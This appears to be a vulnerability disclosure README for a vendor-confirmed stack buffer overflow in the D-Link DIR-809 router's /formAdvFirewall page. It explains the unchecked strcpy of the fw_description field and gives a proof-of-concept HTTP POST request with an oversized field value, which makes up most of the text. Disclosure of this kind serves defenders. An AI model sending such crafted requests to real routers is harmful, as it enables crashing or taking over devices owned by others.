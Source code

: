 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formAdvFirewall` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_800462c4` ( page `/formAdvFirewall` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"fw_description_%d"` in the http post request which is completely under the attacker's control. 
2. The string `local_14` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `acStack276`. 

![2021-05-10_11h04_17](README/2021-05-10_11h04_17.png)



## PoC

``` 
POST /formAdvFirewall.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3228
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Firewall.asp?t=1620560035954
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=s4vLUlBpKH
Connection: close

settingsChanged=1&curTime=1620560128072&HNAP_AUTH=33A4575639545280B0A1F1C2E47D6A72+1620560128&submit-url=%2FAdvanced%2FFirewall.asp&anti_spoof=false&spi_enabled=false&dmz_enabled=0&alg_rtsp=true&fw_description_0=123123123213123123*0x200&sinf_0=1&s_s_ip_0=192.168.0.2&s_e_ip_0=192.168.0.4&pro_0=2&act_0=1&dinf_0=2&d_s_ip_0=192.168.0.5&d_e_ip_0=192.168.0.10&d_s_port_0=10000&d_e_port_0=10001&fw_description_1=&sinf_1=0&s_s_ip_1=&s_e_ip_1=&pro_1=2&act_1=1&dinf_1=0&d_s_ip_1=&d_e_ip_1=&d_s_port_1=0&d_e_port_1=&fw_description_2=&sinf_2=0&s_s_ip_2=&s_e_ip_2=&pro_2=2&act_2=1&dinf_2=0&d_s_ip_2=&d_e_ip_2=&d_s_port_2=0&d_e_port_2=&fw_description_3=&sinf_3=0&s_s_ip_3=&s_e_ip_3=&pro_3=2&act_3=1&dinf_3=0&d_s_ip_3=&d_e_ip_3=&d_s_port_3=0&d_e_port_3=&fw_description_4=&sinf_4=0&s_s_ip_4=&s_e_ip_4=&pro_4=2&act_4=1&dinf_4=0&d_s_ip_4=&d_e_ip_4=&d_s_port_4=0&d_e_port_4=&fw_description_5=&sinf_5=0&s_s_ip_5=&s_e_ip_5=&pro_5=2&act_5=1&dinf_5=0&d_s_ip_5=&d_e_ip_5=&d_s_port_5=0&d_e_port_5=&fw_description_6=&sinf_6=0&s_s_ip_6=&s_e_ip_6=&pro_6=2&act_6=1&dinf_6=0&d_s_ip_6=&d_e_ip_6=&d_s_port_6=0&d_e_port_6=&fw_description_7=&sinf_7=0&s_s_ip_7=&s_e_ip_7=&pro_7=2&act_7=1&dinf_7=0&d_s_ip_7=&d_e_ip_7=&d_s_port_7=0&d_e_port_7=&fw_description_8=&sinf_8=0&s_s_ip_8=&s_e_ip_8=&pro_8=2&act_8=1&dinf_8=0&d_s_ip_8=&d_e_ip_8=&d_s_port_8=0&d_e_port_8=&fw_description_9=&sinf_9=0&s_s_ip_9=&s_e_ip_9=&pro_9=2&act_9=1&dinf_9=0&d_s_ip_9=&d_e_ip_9=&d_s_port_9=0&d_e_port_9=&fw_description_10=&sinf_10=0&s_s_ip_10=&s_e_ip_10=&pro_10=2&act_10=1&dinf_10=0&d_s_ip_10=&d_e_ip_10=&d_s_port_10=0&d_e_port_10=&fw_description_11=&sinf_11=0&s_s_ip_11=&s_e_ip_11=&pro_11=2&act_11=1&dinf_11=0&d_s_ip_11=&d_e_ip_11=&d_s_port_11=0&d_e_port_11=&fw_description_12=&sinf_12=0&s_s_ip_12=&s_e_ip_12=&pro_12=2&act_12=1&dinf_12=0&d_s_ip_12=&d_e_ip_12=&d_s_port_12=0&d_e_port_12=&fw_description_13=&sinf_13=0&s_s_ip_13=&s_e_ip_13=&pro_13=2&act_13=1&dinf_13=0&d_s_ip_13=&d_e_ip_13=&d_s_port_13=0&d_e_port_13=&fw_description_14=&sinf_14=0&s_s_ip_14=&s_e_ip_14=&pro_14=2&act_14=1&dinf_14=0&d_s_ip_14=&d_e_ip_14=&d_s_port_14=0&d_e_port_14=&fw_description_15=&sinf_15=0&s_s_ip_15=&s_e_ip_15=&pro_15=2&act_15=1&dinf_15=0&d_s_ip_15=&d_e_ip_15=&d_s_port_15=0&d_e_port_15=&fw_description_16=&sinf_16=0&s_s_ip_16=&s_e_ip_16=&pro_16=2&act_16=1&dinf_16=0&d_s_ip_16=&d_e_ip_16=&d_s_port_16=0&d_e_port_16=&fw_description_17=&sinf_17=0&s_s_ip_17=&s_e_ip_17=&pro_17=2&act_17=1&dinf_17=0&d_s_ip_17=&d_e_ip_17=&d_s_port_17=0&d_e_port_17=&fw_description_18=&sinf_18=0&s_s_ip_18=&s_e_ip_18=&pro_18=2&act_18=1&dinf_18=0&d_s_ip_18=&d_e_ip_18=&d_s_port_18=0&d_e_port_18=&fw_description_19=&sinf_19=0&s_s_ip_19=&s_e_ip_19=&pro_19=2&act_19=1&dinf_19=0&d_s_ip_19=&d_e_ip_19=&d_s_port_19=0&d_e_port_19=&fw_description_20=&sinf_20=0&s_s_ip_20=&s_e_ip_20=&pro_20=2&act_20=1&dinf_20=0&d_s_ip_20=&d_e_ip_20=&d_s_port_20=0&d_e_port_20=&fw_description_21=&sinf_21=0&s_s_ip_21=&s_e_ip_21=&pro_21=2&act_21=1&dinf_21=0&d_s_ip_21=&d_e_ip_21=&d_s_port_21=0&d_e_port_21=&fw_description_22=&sinf_22=0&s_s_ip_22=&s_e_ip_22=&pro_22=2&act_22=1&dinf_22=0&d_s_ip_22=&d_e_ip_22=&d_s_port_22=0&d_e_port_22=&fw_description_23=&sinf_23=0&s_s_ip_23=&s_e_ip_23=&pro_23=2&act_23=1&dinf_23=0&d_s_ip_23=&d_e_ip_23=&d_s_port_23=0&d_e_port_23=
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

